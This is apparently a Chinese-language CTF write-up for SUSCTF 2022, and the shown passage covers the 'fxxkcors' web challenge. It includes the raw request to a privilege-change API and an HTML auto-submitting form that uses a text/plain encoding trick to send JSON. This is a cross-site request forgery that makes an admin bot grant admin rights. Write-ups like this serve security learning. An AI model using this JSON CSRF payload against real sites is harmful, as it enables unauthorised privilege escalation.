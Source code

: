 ```yaml
---
title: SUSCTF 2022 Writeup
catalog: true
date: 2022-03-01 21:54:15
tags: [Security]
categories: [Security]
---
```


這個假日有不少 CTF，跟著隊伍 SU 一起打了 SUSCTF 2022，這篇簡單記錄一下幾個我有參與的題目的心得。

會講到的題目列表如下：

1. web/fxxkcors
2. web/ez_note
3. web/baby gadget v1.0
4. web/baby gadget v1.0’s rrrevenge
5. web/HTML practice



## web/fxxkcors (67 solves)

![](/img/susctf-2022-writeup/p1.png)

這題就是有一個 `change.php` 可以讓你改權限，把自己權限改成 admin 就可以看到 flag 了，request 長得像這樣：

```
POST /changeapi.php HTTP/1.1
Host: 124.71.205.122:10002
Content-Length: 19
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://124.71.205.122:10002
Referer: http://124.71.205.122:10002/change.php
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=1ab6387f551b235d26d1c88a3685d752
Connection: close

{"username":"huli"}
```

但你自己當然沒權限去改，所以這提供了一個 admin bot，你可以給他任意網址讓他去造訪，因此目標顯而易見就是讓 admin bot 幫你 request 去改權限。

可是你是從不同的 origin 發 request 的，而且還要帶上 cookie，所以會在 CORS 那關被擋掉。

這時候就要來 CSRF 了，但是要求的格式是 JSON，該怎麼 CSRF 呢？有一個我以前看到不少次的技巧，如果 server 沒有特別檢查 content type 的話，可以像這樣做：

``` html
<body>
    <form id=a action="http://124.71.205.122:10002/changeapi.php" method="POST" enctype="text/plain">
      <input name='{"username":"huli", "abc":"' value='123"}'>
    </form>
    <script>
      a.submit()
    </script>
</body>
```
